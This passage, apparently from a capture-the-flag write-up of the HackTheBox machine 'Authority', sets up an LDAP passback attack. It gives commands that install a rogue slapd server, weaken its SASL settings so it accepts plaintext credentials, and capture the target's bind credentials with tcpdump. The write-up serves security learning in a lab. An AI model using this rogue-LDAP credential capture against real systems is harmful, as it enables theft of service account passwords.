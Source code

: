 it does not seem to work... after some try, i understand that it is necessary to connect with the button "configuration manager"

![Firstacces](/assets/authorityHtb/Firstacces.png)

Ok, we are in the application trying to see what we can do, Knowing that this application has a relationship with the LDAP protocol. In the configuration editor menu, we can see that we have a pretty cool handle on the LDAPs server address.
Directly I think of an attack of type LDAP passback attacks, for that we must mount an LDAP server on our attacking machine: 
```
#installer LDAP
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd

#create .ldif file for downgrade the server with this content
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred

#downgrade the server 
ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart

```
In order to capture ldap requests on our server, we will use TCPdump: 
```
tcpdump -SX -i network_card tcp port 389
```